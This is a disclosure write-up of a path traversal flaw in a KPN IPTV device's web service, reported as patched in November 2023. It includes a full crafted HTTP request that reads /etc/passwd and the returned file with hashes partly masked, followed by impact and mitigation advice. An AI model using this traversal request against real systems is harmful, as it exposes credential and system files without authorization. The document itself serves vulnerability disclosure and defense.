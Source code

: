 # KPN IPTV File Path Traversal Vulnerability - PoC (2023)

## Overview

This report demonstrates a **file path traversal vulnerability** discovered in the KPN IPTV service, which allows an attacker to access sensitive system files, such as `/etc/passwd`, without proper authorization. The vulnerability arises from insufficient input validation, enabling directory traversal by manipulating the URL.

---

## Vulnerability Details

A **directory traversal** attack (also known as path traversal) occurs when an attacker can craft a URL that accesses files outside the intended directory scope of a web server. By adding `../` sequences, attackers can navigate up the file system and access files that should be restricted, such as configuration files or user information.

### Affected URL:
```plaintext
http://192.168.2.x:8081/Service/Controller/UI?ip=192.168.2.x&port=8081
```

# Proof of Concept (PoC)
* Malicious Request Example

* Using a crafted HTTP request, an attacker can access the sensitive /etc/passwd file. The request can be tested using Burp Suite or another HTTP proxy tool.
*Burp Suite Request:
```
http

GET /Service/Controller/UI../../../../../../../../../../../../../../../../etc/passwd?ip=192.168.2.x&port=8081 HTTP/1.1
Host: 192.168.2.x:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

* In this request, the attacker exploits the path traversal vulnerability by using ../ sequences to navigate out of the web server’s intended directory structure and access the /etc/passwd file.

# Server Response

* The server responds with HTTP 200 OK, and the contents of the /etc/passwd file are returned. For privacy, the password hashes have been blurred:

plaintext
```
HTTP/1.1 200 OK
Content-Type: unknown
Content-Length: 940

root:$5$96bRk************$uTSh**************RLdK1ND*********/XLWC:0:0:root:/home/root:/bin/sh
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
ntpd:x:1001:65534:Linux User,,,:/var/shared/empty:/bin/sh
utc:$5$qkymr************$M1qu**************JoEifmNs********AiybaC:1000:1000:utc:/home/utc:/bin/sh
```

# Explanation of /etc/passwd

* The /etc/passwd file is critical for user management in Unix-based systems. It contains essential information about user accounts, including:

    * Username: The user’s login name.
    * Password hash: (If stored here, although modern systems use /etc/shadow).
    * UID: User ID.
    * GID: Group ID.
    * Home Directory: The path to the user’s home directory.
    * Shell: The default shell assigned to the user.

Although modern systems store password hashes in /etc/shadow, disclosing /etc/passwd can still reveal valuable information for further attacks.
Impact

# Exploiting this vulnerability could result in the following:
```
   * Information Disclosure: Access to /etc/passwd reveals usernames and potentially hashed passwords.
   * Privilege Escalation: Attackers may use the disclosed information to crack passwords and escalate privileges.
   * Further Exploitation: Combined with other vulnerabilities, this attack could lead to unauthorized system access.
```
# Mitigation Strategies

* To prevent directory traversal attacks like this, the following countermeasures should be implemented:

   * Input Validation: Strictly validate and sanitize all user inputs to disallow sequences like ../.
   * Directory Restrictions: Implement proper file permissions and ensure the web server does not allow access to sensitive directories.
   * Web Application Firewalls (WAFs): Deploy WAFs to detect and block malicious URL patterns indicative of path traversal attacks.

# Conclusion

*Path traversal vulnerabilities pose a significant security risk by allowing attackers to access files that should remain confidential. In this case, the KPN IPTV service was found to be vulnerable to directory traversal, which can lead to the exposure of sensitive files like /etc/passwd. Ensuring proper input validation, restricting directory access, and implementing security mechanisms like WAFs are critical to preventing such vulnerabilities.
References

    OWASP: Path Traversal

# affected device 
* Tested on the older IPTV device, (no bluethooth), likely worked on newer types to.

# This been patched !!
* 3 day's after report the bug in november 2023, it was fixed with a critial urgent patch, rolled out in 3 day's



